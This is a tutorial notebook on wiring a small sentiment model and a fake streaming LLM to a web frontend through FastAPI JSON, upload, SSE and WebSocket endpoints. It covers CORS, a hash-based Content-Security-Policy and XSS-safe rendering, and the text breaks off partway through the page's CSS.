# Software Engineering for AI Developers: Connecting an AI Model to a Frontend

> **Who is this for?** You can train a model and you have seen a basic FastAPI app. Now you want a real web page where people type text, upload a file, watch an answer *stream in* word by word and chat with your model, the way ChatGPT-style apps work.
>
> **What you will learn**
> - How a web app talks to an AI model: **browser → frontend → API → model**, and where each piece runs
> - Four ways a browser talks to a server: **JSON request/response**, **file upload**, **Server-Sent Events (SSE)** streaming and **WebSockets**
> - How to build all four in **FastAPI** (with pydantic validation, CORS, size limits, a strict Content-Security-Policy) and in a single **HTML + vanilla JavaScript** page (loading states, error handling, cancel, and escaping model output to prevent **XSS**)
> - How to test every endpoint from Python with `httpx` and a WebSocket client, and take a headless-browser screenshot
> - The same UI in **React**, **Streamlit** and **Gradio**, and when to choose each
> - UX for AI features: latency budgets, streaming, cancel buttons, showing uncertainty, feedback logging, accessibility
>
> **Prerequisites:** [07 · Computer networks for AI apps](07_computer_networks_for_ai_apps.ipynb) (HTTP, TCP, ports), [08 · Security for AI applications](08_security_for_ai_applications.ipynb), [FastAPI intro](../12_FastAPI/01_fastapi_intro.ipynb), [Advanced FastAPI](../12_FastAPI/02_advanced_fastapi.ipynb) (it introduces WebSockets), [Serving ML models with FastAPI](../12_FastAPI/03_ml_serving_with_fastapi.ipynb), [Streamlit & Gradio](../16_Deployment/02_streamlit_gradio.ipynb). Basic HTML helps but is not required.
>
> **Time needed:** about 90 minutes to read and run, longer if you do the practice problems.
>
> **Runs on:** CPU, no API key, no internet. The server runs on your own machine on a free port between 8200 and 8299 and is always stopped at the end.
>
> **Optional track:** part of the university-level fundamentals track (module 23, *Software Engineering for AI Developers*); recommended for BS/MS AI students, for anyone building AI products, and for interview prep.

## Explained simply

A trained AI model is just a file on a computer: nobody can use it until there is a web page with a box to type in and a button to press. Connecting the two works like a **restaurant**: you read the menu (the web page), give your order to the waiter (the API), and the kitchen (the model) cooks it. You never walk into the kitchen yourself; the waiter checks the order and brings the food back. Some answers come as one plate (a single label such as "happy" or "unhappy"), others arrive course by course, like a chatbot typing word by word. A **pizza-tracker app** is another everyday example: it shows "in the oven... on the way" instead of a blank screen for 30 minutes, and that is exactly what *streaming* does for AI answers. Finally, a page must show the model's words as plain text, never as code the browser would run, just as a shop would never let a customer's note change its price tags.

**Tiny example:** you type *"My order arrived broken and support was rude"*. The page sends `{"text": "My order arrived broken and support was rude"}` to the server, the model answers `{"label": "negative", "confidence": 0.81}`, and the page shows **"Negative - 81% confident"** (section 4 prints this exact number). For a 28-word reply that the model produces at 30 ms per word, streaming lets the first word appear as soon as it is made (about 0.03 s of model time) instead of after all 28 words (about 28 × 0.03 = 0.84 s).

| Concept | Simple meaning | Where you see it in real life / AI |
|---|---|---|
| API | The waiter between the page and the model | A weather app asking a server for today's forecast |
| Streaming | Sending the answer piece by piece as it is made | ChatGPT-style apps typing their reply word by word |
| Escaping model output (XSS protection) | Show the AI's words as text, never run them as code | Any site that safely displays comments or AI answers |

### How this notebook goes deeper than the rest of the repo

| Already in the repo | This notebook adds |
|---|---|
| [`12_FastAPI/`](../12_FastAPI/) builds JSON prediction APIs | The **browser side**: how a page calls those APIs, plus streaming, uploads and chat over one server |
| The six [`21_Projects/*/templates/index.html`](../21_Projects/02_rag_chatbot/templates/index.html) pages use `fetch` + JSON and wait for the full answer | **Token streaming** (SSE and `ReadableStream`), a **Stop** button, a **WebSocket** chat, timeouts, a strict **CSP** and a systematic XSS rule |
| [`16_Deployment/02_streamlit_gradio.ipynb`](../16_Deployment/02_streamlit_gradio.ipynb) builds demo UIs with the model inside the UI process | Streamlit and Gradio as **thin clients of the same API**, and a decision table: vanilla JS vs React vs Streamlit vs Gradio |

### Table of contents
1. The big picture: browser → frontend → API → model
2. Four ways a browser talks to a server
3. Setup
4. The model layer: a tiny sentiment model and a fake streaming "LLM"
5. The backend: a FastAPI app with `/predict`, `/upload`, `/stream`, `/chat`, `/health`
6. The frontend: one HTML file with vanilla JavaScript
7. Run the server and exercise every endpoint
8. The same UI in React
9. The same UI in Streamlit and Gradio
10. UX for AI features
11. Deployment options
12. How this connects to modern AI
13. Recap, practice problems, further reading

---
## 1. The big picture: browser → frontend → API → model

> **In plain words:** the web page is the menu, the API is the waiter and the model is the kitchen.

**Analogy: a restaurant.** You (the **browser**) read the **menu** (the **frontend**: HTML, CSS and JavaScript). You give your order to the **waiter** (the **API**), who takes it to the **kitchen** (the **model**). You never walk into the kitchen yourself: the waiter checks the order is valid, the kitchen only cooks, and the recipes (the model weights) stay private.

```
   USER'S DEVICE                                  YOUR SERVER (or a cloud container)
 +--------------------------------+             +---------------------------------------------+
 |  Browser                       |   HTTP(S)   |  API process (FastAPI + uvicorn)            |
 |  +--------------------------+  |  ---------> |  +---------------------------------------+  |
 |  | Frontend: HTML/CSS/JS    |  |  JSON,      |  | validate input (pydantic)             |  |
 |  | - form, buttons          |  |  files,     |  | auth, rate limit, CORS, logging       |  |
 |  | - fetch / EventSource /  |  |  SSE,       |  |              |                        |  |
 |  |   WebSocket              |  |  WebSocket  |  |              v                        |  |
 |  | - shows the answer       |  |  <--------- |  |   MODEL (loaded once at startup)      |  |
 |  +--------------------------+  |             |  |   sklearn pipeline / LLM / ...        |  |
 +--------------------------------+             |  +---------------------------------------+  |
            ^                                   |  Static files: index.html, JS, CSS          |
            |  1. GET /  (download the page)    +---------------------------------------------+
            +------------------------------------------- 2. the page's JS calls /predict ...
```

The **frontend** is code that is *downloaded* from a server but *runs* on the user's device. The **backend** (API) runs on a machine you control. The **model** usually lives inside the API process (small models) or in a separate **model server** that the API calls (large LLMs: vLLM, TGI, Triton, or a hosted LLM API).

| Piece | Where it runs | Typical technology | Who can see / change it |
|---|---|---|---|
| Browser | User's laptop or phone | Chrome, Firefox, Safari | The user |
| Frontend | Downloaded from your server, executed in the browser | HTML, CSS, JavaScript (vanilla, React, ...) | **The user can read and modify it** (DevTools) |
| API / backend | Your server, container or serverless function | Python + FastAPI + uvicorn | Only you |
| Model | Inside the API process, or a separate model server / GPU box | scikit-learn, PyTorch, vLLM, a hosted LLM API | Only you |

### Why the model (almost) never runs in the browser

1. **Size and speed.** Even a "small" LLM such as Qwen2.5-0.5B is about 1 GB of weights; users would download it on every new device, and phones have little memory.
2. **Secrets.** Anything sent to the browser can be read. API keys for a hosted LLM, your proprietary weights and your system prompt would all be exposed.
3. **Trust.** The user controls the browser. If the browser decided "this loan is approved", the user could change that decision in DevTools. Decisions that matter must be made on the server.
4. **One version for everyone.** On the server you can update, monitor, log and roll back the model in one place.

**The exception: on-device AI in the browser.** **WebGPU** (shipped in Chrome/Edge in 2023 and in recent Safari and Firefox versions) and **WebAssembly** let small models run locally with libraries such as **ONNX Runtime Web**, **Transformers.js** and **WebLLM**. This is a good choice when privacy matters (data never leaves the device), when you want zero server cost, or for offline use, and the model is small enough (for example a 20 MB image classifier, or a 0.5–3B LLM for users with good hardware). Even then, keep anything secret or decision-critical on the server.

> 🎓 **Exam / interview tip:** "Walk me through what happens when a user clicks *Ask* in a chat app." A strong answer names: DNS + TLS → the browser downloads the frontend → JS sends a request (fetch/SSE/WebSocket) → load balancer / reverse proxy → API validates and authenticates → the API calls the model (maybe via a queue or a model server) → tokens stream back → the frontend renders them safely → logs and metrics are recorded.

---
## 2. Four ways a browser talks to a server

> **In plain words:** a page can ask once and get one answer, send a file, receive an answer bit by bit, or keep a line open for a conversation.

| Pattern | Direction | Browser API | Wire format | Use it for | Our endpoint |
|---|---|---|---|---|---|
| **Request / response** | client asks, server answers once | `fetch()` | JSON body | Classify, extract, embed: anything that finishes in about a second | `POST /predict` |
| **File upload** | client → server | `fetch()` with `FormData` | `multipart/form-data` | Documents, images, audio | `POST /upload` |
| **Server-Sent Events (SSE)** | server → client, many messages over one HTTP response | `EventSource` (or `fetch` + `ReadableStream`) | `text/event-stream` | **Streaming LLM tokens**, progress updates | `GET /stream` |
| **WebSocket** | both ways, any time, one long-lived connection | `WebSocket` | frames (we send JSON) | Chat with back-and-forth, voice, live collaboration | `WS /chat` |

Other patterns you will meet: **polling** (ask "is my job done?" every few seconds: fine for slow batch jobs), **long-polling** (an older trick before SSE), **webhooks** (server calls *your* server when a job finishes), and **WebRTC** (peer-to-peer audio/video, used by real-time voice AI).

### What SSE looks like on the wire (worked example by hand)

**Server-Sent Events** is plain text over one HTTP response that stays open. Each **event** is a few `field: value` lines followed by a **blank line**:

```
retry: 3000                               <- "if the connection drops, wait 3 s before reconnecting"

event: meta                               <- event name (optional; default is "message")
data: {"sentiment": "negative"}           <- the payload (we always send JSON)

event: token
data: {"token": "Sorry "}

event: token
data: {"token": "to "}

event: done
data: {"n_tokens": 28}
```

Why JSON inside `data:`? A token can contain a newline (`"\n"`), and a raw newline would end the `data:` line early. `json.dumps` turns it into the two characters `\n`, so the framing stays intact.

| | SSE | WebSocket |
|---|---|---|
| Direction | Server → client only (the client sends its input in the URL or a separate request) | Both directions |
| Protocol | Ordinary HTTP: works through most proxies, uses HTTP auth/cookies | Starts as HTTP, then **upgrades** to its own protocol (`ws://`, `wss://`) |
| Reconnect | **Automatic** in `EventSource` | You write it yourself |
| Browser API limits | `EventSource` only does **GET** and cannot set custom headers | Cannot set custom headers either (send a token in the first message or use cookies) |
| Typical AI use | Streaming one answer (OpenAI and Anthropic APIs stream with SSE) | Multi-turn chat, voice, tools that push events |

> ⚠️ **Common mistake:** forgetting that `EventSource` **reconnects automatically**. When the server finishes and closes the response, the browser reconnects and you get the same answer generated *again* (and pay for it again). Always send a final `done` event and call `source.close()` in the client, as our page does.

---
## 3. Setup

> **In plain words:** we make a scratch folder and pick a free "door number" (port) for our server.

Everything we create (model file, `app.py`, `index.html`, logs) goes into a temporary folder that is deleted at the end. `free_port()` picks a free port in 8200–8299 so we never clash with another app.

In [1]:
import atexit                     # make sure the server is stopped even if the kernel shuts down
import json
import os
import pickle
import random
import shutil
import socket                     # to find a free port
import subprocess                 # to start uvicorn as a separate process
import sys
import tempfile
import time
from contextlib import contextmanager
from pathlib import Path

import httpx                      # HTTP client (like requests, plus streaming and async)
import matplotlib.pyplot as plt
import numpy as np
import pandas as pd
from IPython.display import Image, display
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.model_selection import train_test_split
from sklearn.pipeline import make_pipeline

SEED = 42
random.seed(SEED)
np.random.seed(SEED)

WORK = Path(tempfile.mkdtemp(prefix="ai_frontend_"))   # our project folder for this notebook
(WORK / "static").mkdir()


def free_port(start=8250, lo=8200, hi=8299):
    """Return the first port in [lo, hi] (searching from `start`) that nothing is listening on."""
    for port in list(range(start, hi + 1)) + list(range(lo, start)):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            try:
                s.bind(("127.0.0.1", port))   # bind succeeds only if the port is free
                return port
            except OSError:
                continue
    raise RuntimeError("No free port between 8200 and 8299")


QWEN_CACHED = (Path.home() / ".cache/huggingface/hub/models--Qwen--Qwen2.5-0.5B-Instruct").exists()
try:
    import websockets.sync.client as ws_client        # optional: a WebSocket client for testing /chat
except ImportError:
    ws_client = None
print("Project folder created (temporary).")
print("WebSocket client available:", ws_client is not None)
print("Local Qwen2.5-0.5B-Instruct cached:", QWEN_CACHED)

Project folder created (temporary).
WebSocket client available: True
Local Qwen2.5-0.5B-Instruct cached: True


---
## 4. The model layer: a tiny sentiment model and a fake streaming "LLM"

> **In plain words:** we build a tiny model that says whether a review is happy or unhappy, plus a pretend chatbot that types slowly.

We need models that answer in milliseconds so the lesson stays fast:

1. **A real (tiny) classifier:** TF-IDF features + logistic regression, trained on 300 synthetic product reviews. It returns a label and a **probability**, so the UI can show how sure it is.
2. **A fake LLM:** an async generator that yields a templated reply **word by word with a 30 ms pause per word**. It behaves exactly like a real LLM from the frontend's point of view (tokens arrive over time), which is all the frontend cares about.
3. **Optionally a real LLM:** if Qwen2.5-0.5B-Instruct is already in your Hugging Face cache, section 7.11 restarts the server with `LLM_BACKEND=qwen` and streams real tokens through the *same* endpoint.

This is the **adapter idea**: the API and the page do not change when the model behind them changes.

In [2]:
POS = ["it works great", "it arrived quickly", "the quality is excellent", "I am very happy with it", "I highly recommend it",
       "the support was amazing", "five stars", "it is exactly as described", "it is great value for money",
       "the delivery was fast", "it works perfectly", "I love it"]
NEG = ["it arrived broken", "it stopped working after a week", "the quality is terrible", "I am very disappointed with it",
       "it is a waste of money", "I will never buy it again", "the delivery was slow", "the support was rude",
       "it does not work at all", "I want a refund", "it broke on day one", "I hate it"]
ITEMS = ["headphones", "charger", "keyboard", "blender", "lamp", "backpack", "phone case", "kettle"]

rng = random.Random(SEED)
texts, labels = [], []
for _ in range(150):                                    # 150 positive + 150 negative reviews
    for phrases, label in [(POS, "positive"), (NEG, "negative")]:
        a, b = rng.sample(phrases, 2)                   # two different phrases of the same sentiment
        texts.append(f"My {rng.choice(ITEMS)}: {a} and {b}.")   # e.g. "My lamp: it broke on day one and I hate it."
        labels.append(label)

X_train, X_test, y_train, y_test = train_test_split(texts, labels, test_size=0.25, random_state=SEED, stratify=labels)
model = make_pipeline(TfidfVectorizer(ngram_range=(1, 2)), LogisticRegression(max_iter=1000))
model.fit(X_train, y_train)
print(f"{len(texts)} reviews, e.g. {texts[0]!r}")
print(f"test accuracy = {model.score(X_test, y_test):.3f}")

for t in ["The delivery was fast and the product works great",
          "My order arrived broken and support was rude",
          "It is a lamp."]:
    p = model.predict_proba([t])[0]
    print(f"{t!r:55} -> " + ", ".join(f"P({c}) = {pr:.3f}" for c, pr in zip(model.classes_, p)))

with open(WORK / "sentiment.pkl", "wb") as f:
    pickle.dump(model, f)                               # the API will load this file at startup

300 reviews, e.g. 'My headphones: it works perfectly and it arrived quickly.'
test accuracy = 1.000
'The delivery was fast and the product works great'     -> P(negative) = 0.183, P(positive) = 0.817
'My order arrived broken and support was rude'          -> P(negative) = 0.811, P(positive) = 0.189
'It is a lamp.'                                         -> P(negative) = 0.439, P(positive) = 0.561


**What just happened?** The synthetic data is easy, so test accuracy is perfect, but notice the third sentence: *"It is a lamp."* contains no opinion words and the model is close to 50/50. A good AI feature must *show* that uncertainty instead of pretending. Our API returns `low_confidence: true` whenever the top probability is below 0.65, and the page then says *"not sure: please double-check"*.

> ⚠️ **Common mistake:** loading `pickle` files from users or the internet. Unpickling can run arbitrary code. Only load model files you created (or use safer formats such as `skops`, ONNX or `safetensors`).

---
## 5. The backend: a FastAPI app

> **In plain words:** we write the server program that receives requests from the page, checks them and passes them to the model.

We write `app.py` in four parts so each can be explained. Read the comments: almost every line has one.

### 5.1 Configuration and the "LLM" layer

Configuration comes from **environment variables** so the same code runs on a laptop, in CI and in production (see the [twelve-factor app](https://12factor.net/config)). Both LLM back ends are **async generators** with the same signature, so the endpoints do not care which one is active. The real Qwen path runs `model.generate` in a background thread and reads text pieces from a `TextIteratorStreamer` without blocking the event loop.

In [3]:
APP_PART_1 = r'''
"""app.py: a small AI backend that a web page can talk to.

Endpoints
  GET  /health            is the server up, is the model loaded?
  POST /predict           JSON in -> sentiment JSON out (pydantic validation)
  POST /upload            .txt file in -> one prediction per line
  GET  /stream?prompt=..  Server-Sent Events: the "LLM" reply, one token per event
  WS   /chat              WebSocket chat: send {"message": ...}, receive streamed tokens
  POST /feedback          thumbs up / down from the UI, appended to a JSONL log
  GET  /                  redirects to the single-page front end in /static
"""
import asyncio
import base64
import hashlib
import json
import os
import pickle
import re
import time
from contextlib import asynccontextmanager
from pathlib import Path
from typing import Literal

from fastapi import FastAPI, File, HTTPException, Query, Request, UploadFile, WebSocket, WebSocketDisconnect
from fastapi.middleware.cors import CORSMiddleware
from fastapi.responses import RedirectResponse, StreamingResponse
from fastapi.staticfiles import StaticFiles
from pydantic import BaseModel, Field

# ---------- configuration: everything that changes between environments comes from env vars ----------
BASE_DIR = Path(__file__).parent
MODEL_PATH = Path(os.getenv("MODEL_PATH", BASE_DIR / "sentiment.pkl"))
ALLOWED_ORIGINS = os.getenv("ALLOWED_ORIGINS", "http://localhost:5173").split(",")   # e.g. a React dev server
LLM_BACKEND = os.getenv("LLM_BACKEND", "fake")          # "fake" (default, instant) or "qwen" (real, local, slower)
TOKEN_DELAY_S = float(os.getenv("TOKEN_DELAY_S", "0.03"))  # how slow the fake LLM "types"
MAX_UPLOAD_BYTES = 100_000                              # refuse files bigger than ~100 KB
LOW_CONFIDENCE = 0.65                                   # below this the UI should say "not sure"
FEEDBACK_LOG = BASE_DIR / "feedback.jsonl"
MODEL_VERSION = "sentiment-tfidf-lr-v1"
STATS = {"predictions": 0, "streams_started": 0, "streams_completed": 0, "streams_cancelled": 0, "chat_messages": 0}


# ---------- the "LLM" layer: same async-generator interface for the fake and the real model ----------
async def fake_llm_tokens(prompt: str, sentiment: str):
    """Pretend to be an LLM: yield a canned reply word by word, with a small delay per word."""
    opener = {"positive": "Glad to hear that!", "negative": "Sorry to hear that."}.get(sentiment, "Thanks for writing.")
    reply = f"{opener} You said: {prompt} I am a tiny fake model, so this reply is a template, streamed one word at a time."
    for word in reply.split(" "):
        await asyncio.sleep(TOKEN_DELAY_S)              # simulate the time a real model needs per token
        yield word + " "


QWEN = {}                                               # filled only when LLM_BACKEND=qwen


def load_qwen():
    """Load Qwen2.5-0.5B-Instruct from the local Hugging Face cache (never downloads)."""
    os.environ["HF_HUB_OFFLINE"] = "1"
    from transformers import AutoModelForCausalLM, AutoTokenizer
    name = "Qwen/Qwen2.5-0.5B-Instruct"
    QWEN["tok"] = AutoTokenizer.from_pretrained(name)
    QWEN["model"] = AutoModelForCausalLM.from_pretrained(name)


async def qwen_tokens(prompt: str, sentiment: str):
    """Stream tokens from a real local LLM: generate() runs in a thread and pushes text into a streamer."""
    import threading
    from transformers import TextIteratorStreamer
    tok, model = QWEN["tok"], QWEN["model"]
    messages = [{"role": "system", "content": "You are a friendly support assistant. Answer in one or two sentences."},
                {"role": "user", "content": prompt}]
    ids = tok.apply_chat_template(messages, add_generation_prompt=True, return_tensors="pt", return_dict=True)
    streamer = TextIteratorStreamer(tok, skip_prompt=True, skip_special_tokens=True)
    threading.Thread(target=model.generate, daemon=True,
                     kwargs=dict(**ids, streamer=streamer, max_new_tokens=40, do_sample=False)).start()
    loop = asyncio.get_running_loop()
    while True:
        piece = await loop.run_in_executor(None, next, streamer, None)   # wait for the next piece without blocking
        if piece is None:                                                # the streamer is exhausted
            break
        if piece:
            yield piece


def llm_tokens(prompt: str, sentiment: str):
    return qwen_tokens(prompt, sentiment) if LLM_BACKEND == "qwen" else fake_llm_tokens(prompt, sentiment)


'''
print(len(APP_PART_1.splitlines()), 'lines')

89 lines


### 5.2 Startup, CORS and security headers

- **Lifespan:** the model is loaded **once** when the server starts, not on every request (loading can take seconds; predicting takes milliseconds).
- **CORS (Cross-Origin Resource Sharing):** a browser rule. A page from origin A (scheme + host + port, e.g. `http://localhost:5173`, a React dev server) may only read responses from origin B if B's response says so with `Access-Control-Allow-Origin`. Our own page is served by the API itself (same origin), so it needs no CORS; the list is for *other* frontends. Never use `allow_origins=["*"]` together with cookies/credentials.
- **Content-Security-Policy (CSP):** an HTTP header that tells the browser which scripts may run. Ours allows **only the exact inline script and style in our `index.html`** (identified by their SHA-256 hash). If an attacker ever managed to inject `<script>` or an `onerror=` attribute into the page, the browser would refuse to run it. This is *defence in depth* on top of escaping.

In [4]:
APP_PART_2 = r'''
# ---------- startup: load the model ONCE, not once per request ----------
@asynccontextmanager
async def lifespan(app: FastAPI):
    with open(MODEL_PATH, "rb") as f:
        app.state.model = pickle.load(f)                # only unpickle files you created yourself!
    if LLM_BACKEND == "qwen":
        load_qwen()
    app.state.started = time.time()
    yield                                               # the server handles requests while we are paused here


app = FastAPI(title="AI front-end demo", version="1.0", lifespan=lifespan)

# CORS: which OTHER origins (scheme+host+port) may call this API from a browser.
app.add_middleware(CORSMiddleware, allow_origins=ALLOWED_ORIGINS, allow_methods=["GET", "POST"],
                   allow_headers=["Content-Type"], allow_credentials=False, max_age=600)


# ---------- security headers: a strict Content-Security-Policy for the page ----------
def inline_hashes(html: str, tag: str) -> str:
    """CSP 'sha256-...' sources for every inline <script> or <style> block, so ONLY our own inline code runs."""
    blocks = re.findall(rf"<{tag}>(.*?)</{tag}>", html, flags=re.S)
    return " ".join("'sha256-" + base64.b64encode(hashlib.sha256(b.encode()).digest()).decode() + "'" for b in blocks)


INDEX_HTML = (BASE_DIR / "static" / "index.html").read_text(encoding="utf-8")
CSP = ("default-src 'self'; "
       f"script-src {inline_hashes(INDEX_HTML, 'script')}; "
       f"style-src {inline_hashes(INDEX_HTML, 'style')}; "
       "connect-src 'self'; img-src 'self' data:; object-src 'none'; base-uri 'none'; frame-ancestors 'none'")


@app.middleware("http")
async def security_headers(request: Request, call_next):
    response = await call_next(request)
    response.headers["X-Content-Type-Options"] = "nosniff"     # never guess content types
    if response.headers.get("content-type", "").startswith("text/html"):
        response.headers["Content-Security-Policy"] = CSP
    return response


'''
print(len(APP_PART_2.splitlines()), 'lines')

42 lines


### 5.3 The API contract: pydantic schemas

`PredictRequest` rejects empty or overlong text **before** our code runs (FastAPI answers `422` with a precise error list). `PredictResponse` documents and enforces what the frontend receives. `Literal["up", "down"]` means "exactly one of these strings".

In [5]:
APP_PART_3 = r'''
# ---------- request / response schemas (the API contract) ----------
class PredictRequest(BaseModel):
    text: str = Field(min_length=1, max_length=2000, description="The text to classify")


class PredictResponse(BaseModel):
    label: Literal["positive", "negative"]
    confidence: float = Field(ge=0, le=1)
    low_confidence: bool
    model_version: str
    latency_ms: float


class Feedback(BaseModel):
    request_text: str = Field(max_length=2000)
    model_output: str = Field(max_length=4000)
    rating: Literal["up", "down"]
    comment: str = Field(default="", max_length=500)


def predict_one(model, text: str) -> dict:
    proba = model.predict_proba([text])[0]              # [P(negative), P(positive)]
    best = int(proba.argmax())
    conf = float(proba[best])
    return {"label": str(model.classes_[best]), "confidence": round(conf, 4), "low_confidence": conf < LOW_CONFIDENCE}


'''
print(len(APP_PART_3.splitlines()), 'lines')

28 lines


### 5.4 The endpoints

| Endpoint | Key idea |
|---|---|
| `GET /health` | Used by load balancers and by the page's status bar. Also exposes simple counters. |
| `POST /predict` | A plain `def` (not `async def`): FastAPI runs it in a **thread pool**, so a CPU-bound `predict_proba` does not freeze the event loop. |
| `POST /upload` | Checks the **extension**, reads at most limit + 1 bytes, checks **size** (413), **encoding** (400) and **emptiness** before predicting line by line. |
| `GET /stream` | Classifies the prompt first; if the classifier is unsure, the reply opens neutrally (`"sentiment": "uncertain"`) instead of guessing. Returns a `StreamingResponse` with `text/event-stream`. If the browser disconnects, Starlette cancels the generator and we count a **cancelled** stream (so a real LLM would stop generating and stop costing money). `X-Accel-Buffering: no` tells nginx not to buffer the stream. |
| `WS /chat` | Accepts a WebSocket, keeps a per-connection `history`, and streams each reply as `start` → many `token` → `done` messages. **CORS does not apply to WebSockets**, so we check the `Origin` header ourselves to stop other websites from opening a socket with a visitor's cookies (*cross-site WebSocket hijacking*). |
| `POST /feedback` | Appends 👍/👎 records to a JSONL file: the cheapest way to start collecting evaluation data from real users. |
| `/static/...` and `/` | `StaticFiles` serves `index.html`; `/` redirects to it. |

In [6]:
APP_PART_4 = r'''
# ---------- endpoints ----------
@app.get("/health")
def health():
    return {"status": "ok", "model_loaded": hasattr(app.state, "model"), "model_version": MODEL_VERSION,
            "llm_backend": LLM_BACKEND, "uptime_s": round(time.time() - app.state.started, 1), "stats": STATS}


@app.post("/predict", response_model=PredictResponse)
def predict(req: PredictRequest):                       # plain def: FastAPI runs it in a thread pool
    t0 = time.perf_counter()
    out = predict_one(app.state.model, req.text)
    STATS["predictions"] += 1
    return PredictResponse(**out, model_version=MODEL_VERSION, latency_ms=round((time.perf_counter() - t0) * 1000, 2))


@app.post("/upload")
async def upload(file: UploadFile = File(...)):
    if not (file.filename or "").lower().endswith(".txt"):
        raise HTTPException(415, "Please upload a .txt file (one review per line).")
    data = await file.read(MAX_UPLOAD_BYTES + 1)        # read at most limit+1 bytes: never load a huge file
    if len(data) > MAX_UPLOAD_BYTES:
        raise HTTPException(413, f"File too large (limit {MAX_UPLOAD_BYTES // 1000} KB).")
    try:
        text = data.decode("utf-8")
    except UnicodeDecodeError:
        raise HTTPException(400, "File is not valid UTF-8 text.")
    lines = [ln.strip() for ln in text.splitlines() if ln.strip()][:200]
    if not lines:
        raise HTTPException(400, "The file is empty.")
    results = [{"text": ln[:200], **predict_one(app.state.model, ln)} for ln in lines]
    STATS["predictions"] += len(results)
    n_pos = sum(r["label"] == "positive" for r in results)
    return {"filename": file.filename, "n_lines": len(results), "n_positive": n_pos,
            "n_negative": len(results) - n_pos, "results": results}


def sse(event: str, data: dict) -> str:
    """Format one Server-Sent Event. JSON in `data` keeps newlines inside tokens from breaking the framing."""
    return f"event: {event}\ndata: {json.dumps(data)}\n\n"


@app.get("/stream")
async def stream(prompt: str = Query(min_length=1, max_length=500)):
    pred = predict_one(app.state.model, prompt)
    sentiment = "uncertain" if pred["low_confidence"] else pred["label"]   # do not fake certainty

    async def event_source():
        STATS["streams_started"] += 1
        n = 0
        try:
            yield "retry: 3000\n\n"                     # tell EventSource to wait 3 s before any reconnect
            yield sse("meta", {"sentiment": sentiment, "backend": LLM_BACKEND})
            async for token in llm_tokens(prompt, sentiment):
                n += 1
                yield sse("token", {"token": token})
            yield sse("done", {"n_tokens": n})          # the client must close: otherwise EventSource reconnects
            STATS["streams_completed"] += 1
        except asyncio.CancelledError:                  # the browser went away (tab closed, Stop pressed)
            STATS["streams_cancelled"] += 1
            raise

    return StreamingResponse(event_source(), media_type="text/event-stream",
                             headers={"Cache-Control": "no-cache", "X-Accel-Buffering": "no"})


@app.websocket("/chat")
async def chat(ws: WebSocket):
    origin = ws.headers.get("origin")
    if origin and origin not in ALLOWED_ORIGINS and origin != f"http://{ws.headers.get('host')}":
        await ws.close(code=1008)                       # CORS does not apply to WebSockets: check Origin yourself
        return
    await ws.accept()
    history = []                                        # per-connection memory of the conversation
    try:
        while True:
            msg = await ws.receive_json()
            text = str(msg.get("message", "")).strip()[:500]
            if not text:
                await ws.send_json({"type": "error", "detail": "Empty message."})
                continue
            STATS["chat_messages"] += 1
            history.append({"role": "user", "content": text})
            pred = predict_one(app.state.model, text)
            sentiment = "uncertain" if pred["low_confidence"] else pred["label"]
            await ws.send_json({"type": "start", "sentiment": sentiment, "turn": len(history)})
            reply = ""
            async for token in llm_tokens(text, sentiment):
                reply += token
                await ws.send_json({"type": "token", "token": token})
            history.append({"role": "assistant", "content": reply.strip()})
            await ws.send_json({"type": "done", "turns_so_far": len(history) // 2})
    except WebSocketDisconnect:
        pass                                            # the user closed the tab: nothing to clean up here


@app.post("/feedback", status_code=201)
def feedback(fb: Feedback):
    record = {"ts": round(time.time(), 3), "model_version": MODEL_VERSION, **fb.model_dump()}
    with open(FEEDBACK_LOG, "a", encoding="utf-8") as f:
        f.write(json.dumps(record) + "\n")
    return {"saved": True}


@app.get("/", include_in_schema=False)
def root():
    return RedirectResponse("/static/index.html")


app.mount("/static", StaticFiles(directory=BASE_DIR / "static"), name="static")
'''
print(len(APP_PART_4.splitlines()), 'lines')

110 lines


In [7]:
import py_compile

APP_SOURCE = APP_PART_1 + APP_PART_2 + APP_PART_3 + APP_PART_4
(WORK / "app.py").write_text(APP_SOURCE, encoding="utf-8")
py_compile.compile(str(WORK / "app.py"), doraise=True)      # syntax check before we start a server
print(f"app.py written: {len(APP_SOURCE.splitlines())} lines, compiles OK")

app.py written: 269 lines, compiles OK


---
## 6. The frontend: one HTML file with vanilla JavaScript

> **In plain words:** we write the web page that people actually see and click.

No build step, no framework: one file that the API serves from `/static/index.html`. It has four cards, one per communication pattern. The JavaScript patterns to look for:

| Pattern | Where | Why |
|---|---|---|
| `api()` wrapper around `fetch` | top of the script | One place for **timeouts** (`AbortController`), JSON parsing and **readable error messages** (422 details, network down, timeout) |
| `setBusy(button, true, "Thinking...")` | predict | **Loading state**: disable the button (no double submits), change its label, set `aria-busy` |
| `out.textContent = ...` | everywhere model output is shown | **XSS protection**: `textContent` never interprets HTML |
| `escapeHtml()` | upload table | If you *must* build HTML strings (`innerHTML`), escape **every** server value |
| `new EventSource(url)` + `done` → `close()` | stream | Streaming tokens; the **Stop** button closes the connection |
| `new WebSocket(...)` + exponential backoff in `onclose` | chat | Real-time chat that survives a server restart |
| `aria-live`, `<label for>`, `:focus-visible`, no `onclick=""` attributes | HTML | **Accessibility** and compatibility with the strict CSP |
| `?demo=1` | end of script | Fills in the cards automatically, used for the screenshot in section 7.10 |

In [8]:
INDEX_HTML = r'''<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>AI Front-End Demo</title>
<style>
  :root { --bg:#f6f7f9; --card:#fff; --ink:#1d2330; --muted:#5b6475; --accent:#2457d6; --bad:#b42318; --good:#067647; --line:#d9dde5; }
  * { box-sizing: border-box; }
  body { margin:0; font:16px/1.5 system-ui, sans-serif; background:var(--bg); color:var(--ink); }
  header { padding:12px 20px; background:var(--ink); color:#fff; display:flex; gap:16px; align-items:center; }
  header h1 { font-size:18px; margin:0; }
  #status { font-size:14px; opacity:.9; }
  main { display:grid; grid-template-columns:repeat(auto-fit, minmax(340px, 1fr)); gap:16px; padding:16px; }
  section { background:var(--card); border:1px solid var(--line); border-radius:10px; padding:14px 16px; }
  h2 { font-size:16px; margin:0 0 8px; }
  label { display:block; font-size:14px; color:var(--muted); margin-bottom:4px; }
  textarea, input[type=text] { width:100%; padding:8px; border:1px solid var(--line); border-radius:6px; font:inherit; }
  button { margin-top:8px; padding:7px 14px; border:0; border-radius:6px; background:var(--accent); color:#fff; font:inherit; cursor:pointer; }
  button.secondary { background:#e8ecf4; color:var(--ink); }
